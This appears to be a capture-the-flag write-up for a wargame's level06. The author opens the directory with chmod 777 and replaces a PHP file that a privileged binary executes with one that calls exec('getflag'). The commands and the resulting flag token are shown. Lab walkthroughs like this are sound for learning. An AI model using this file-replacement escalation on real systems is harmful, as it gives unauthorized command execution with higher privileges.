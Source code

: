 # level06 solve

To begin, when we get logged and trying to see if we got the file we can see we have two files

```
$ ls
> level06
> level06.php
```

So we decide to run the binary level06 and see he us the level06.php, after see that we decide to try to change the php file for doing a php request launching the getflag, and we found <a href="https://www.php.net/manual/fr/function.exec.php">that</a>.

result:

```
<?php
	echo exec('getflag');
?>
```

After modifing the php file with an exec command, we need to get the right to modify file on the repository

```
$ chmod 777 .
```

And after that, we just need to move the php file, because it's easier, we going to prefer using an echo and mv on the tmp folder between than use move with the scp command but in case...

scp

```
$ scp -P 4242 level06/Ressources/level06.php level01@ip:level06.php
```

bash

```
$ chmod 777 . ; echo "<?php echo exec('getflag'); ?>" > /tmp/level06.php ; mv /tmp/level06.php .
```

trying...

```
$ ./level06
> Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level05">previous level</a> - <a href="../../level07">next level</a>
